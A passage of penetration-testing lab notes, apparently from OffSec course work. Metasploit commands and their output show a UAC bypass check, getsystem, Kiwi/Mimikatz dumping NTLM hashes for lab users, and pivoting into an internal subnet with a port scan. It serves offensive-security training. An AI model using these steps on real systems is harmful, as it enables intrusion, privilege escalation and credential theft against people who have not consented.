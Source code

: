 ```console
> Import-Module NtObjectManager
> Get-NtTokenIntegrityLevel
High
```

We have successfuly bypassed UAC. We can also load extensions with the "load" command. Kiwi is a good one, which provides the capabilities of Mimkatz. 

Mimikatz requires SYSTEM rights, so exit the current Meterpreter session, start the listener again, execute met.exe and luiza and enter getsystem.

```console
> use exploit/multi/handler
> run
> getsystem

> load kiwi
> help
...
creds_msv              Retrieve LM/NTLM creds (parsed)
...

> creds_msv
luiza     ITWK01  167cf9218719a1209efcfb4bce486a18  2f92bb5c2a2526a630122ea1b642c46193a0d837
offsec    ITWK01  1c3fb240ae45a2dc5951a043cf47040e  a914116eb78bec73deb3819546426c2f6bd80bbd
```

### Pivoting with Metasploit

```
192.168.249.223  VM #1
172.16.134.200  VM #2
```

```console
C:\Users\luiza> ipconfig

// second interface has the assigned IP 172.16.134.199


[*] Meterpreter session 4 opened (192.168.119.4:443 -> 127.0.0.1) at 2022-08-05 05:13:42 -0400
meterpreter >

> route add 172.16.134.0/24 4

> route print
```

We can now scan the whole network for live hosts (RHOSTS to 172.16.134.0/24) with a port scan auxiliary mode. We'll only scan the one here (RHOSTS to 172.16.134.199).

```console
> use auxiliary/scanner/portscan/tcp

> set RHOSTS 172.16.134.200

> set PORTS 445,3389

> run
[+] 172.16.134.200:       - 172.16.134.200:445 - TCP OPEN
[+] 172.16.134.200:       - 172.16.134.200:3389 - TCP OPEN
```
